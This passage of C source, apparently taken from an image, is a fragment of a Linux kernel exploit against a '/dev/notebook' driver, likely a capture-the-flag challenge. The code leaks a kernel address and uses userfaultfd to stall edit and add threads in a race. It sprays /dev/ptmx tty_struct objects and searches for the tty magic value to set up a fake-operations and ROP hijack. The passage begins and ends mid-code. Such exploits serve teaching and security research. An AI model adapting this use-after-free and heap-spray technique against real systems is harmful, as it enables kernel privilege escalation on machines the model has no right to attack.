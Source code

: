 ```c
    char buf[0x100];
    char buffer[0x100];
    size_t leak = 0;
    fgets(buf, 0x30, fd);

    sscanf(buf , "%s%s%s%s%s%lx" ,buffer,buffer,buffer,buffer,buffer, &leak);
    info("leak" ,leak);
}

void main(){
    
    int tty_fd[0x100] = {0};
    int tty_idx = -1 , fake_tty_op_idx ;

    char buf[0x1000] = {0};
    char tty_buf[0x1000] = {0};

    size_t *data = (size_t *)buf;
    size_t *tty_data = (size_t *)tty_buf;

    size_t heap_addr = 0 , tty_addr = 0 , fake_tty_op_addr = 0 ,rop_addr ;
    pthread_t tmp_t, add_t, edit_t;

    long int *nums = (long int *) malloc(8*0x10);
    for (int i = 0; i < 0x10; i++)
        nums[i] = i;

    save_status();

    fd = open("/dev/notebook" , O_RDWR);

    mem = (char*)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    register_userfault((size_t) mem , 0x1000 );
    sleep(1);

    for (int i = 0;i<0x10;i++){
        add(i , 0x20 , buf);
        edit(i , TTY_STRUCT_SIZE , buf);
    }

    for (int i = 0; i < 0x10; i++)
        pthread_create( &edit_t , NULL , block_edit , (void *)(nums+i));

    sleep(1);

    for (int i = 0; i < 0x80; i++)
        tty_fd[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY);

    for (int i = 0; i < 0x10; i++)
        pthread_create( &add_t , NULL , block_add , (void *)(nums+i));

    sleep(1);

    for (int i = 0; i < 0x10; i++){
        note_read(i , tty_buf);
        if ((int)tty_data[0] == 0x5401 ){
            tty_idx = i;
            break;
        }
    }

    if(tty_idx == -1) {
        error("Can not find tty");
```